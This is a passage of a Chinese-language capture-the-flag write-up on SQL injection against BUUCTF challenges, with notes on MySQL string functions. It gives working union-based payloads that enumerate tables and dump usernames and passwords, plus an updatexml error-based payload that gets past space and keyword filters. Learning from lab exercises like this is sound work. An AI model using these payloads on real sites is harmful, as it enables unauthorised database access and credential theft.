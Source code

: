 ```
?username=1&password=11' union select 1,version(),database()%23 
```

4.爆表名

```
?username=123&password=111' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23 
```

5.爆表

```
?username=1&&password=1'union select 1,2,group_concat(id,username,password) from l0ve1ysq1 #
或
?username=1&&password=1' union select 1,2,group_concat(concat_ws('-',id,username,password)) from l0ve1ysq1%23 
```

ps:功能函数
1.concat_ws()函数
功能：一次性指定分隔符
语法：concat_ws(separator,str1,str2,…)
说明：第一个参数指定分隔符 分隔符不能为空 如果为NULL 则返回值NULL
2.concat()函数
功能：将多个字符串拼接成一个字符串
语法：concat(str1,str2,…)
返回结果为连接参数产生的字符串 如果有任何一个参数为NULL 则返回值NULL
3.group_concat( [DISTINCT] 要连接的字段 [Order BY 排序字段 ASC/DESC] [Separator ‘分隔符’] )
即按需求打印内容

### BUUCTF HardSQL

一个字符一个字符试发现很多字符如and,union都被过滤
因为空格被过滤，用()分割语句达到代替空格的效果。=被过滤，可以用like替代。尝试用[updatexml报错注入](https://blog.csdn.net/qq_37873738/article/details/88042610)

```
check.php?username=1'or(updatexml(1,concat(0x7e,database(),0x7e),1))%23&password=2 
```

*   爆出库名
    ![在这里插入图片描述](img/9d4e1d80198b080da2d531b502d33e62.png)
*   爆表名
